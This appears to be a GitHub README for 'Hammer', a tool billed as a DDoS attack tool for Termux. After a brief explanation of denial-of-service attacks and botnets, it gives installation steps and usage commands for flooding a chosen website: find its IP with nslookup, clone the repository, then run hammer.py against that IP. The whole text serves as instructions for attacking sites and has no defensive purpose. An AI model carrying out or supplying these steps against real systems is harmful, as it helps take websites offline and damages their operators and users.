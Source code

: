 # Hammer
Ddos attack tool for termux
*What is ddos attack*
That is what a Distributed Denial of Service (DDoS) attack is—a method where cybercriminals flood a network with so much traffic that it cannot operate or communicate as it normally would. ... All it takes to create a DDoS attack are two devices that coordinate to send fake traffic to a server or website. That's it.

# What are ddos attack used for
Distributed denial of service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.

# ddos attack tool
*Hammer*

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
> cd Hammer

> python hammer.py -s [ip Address] -t 135
example:

> python hammer.py -s 123.45.67.89 -t 135

# Installation
```pkg update && pkg upgrade

git clone https://github.com/TermuxHackz/Hammer

cd Hammer

python hammer.py
```
# Usage:
> python hammer.py -s [IP address] -t 135

example: python hammer.py -s 127.0.0.1 -t 135

=============================
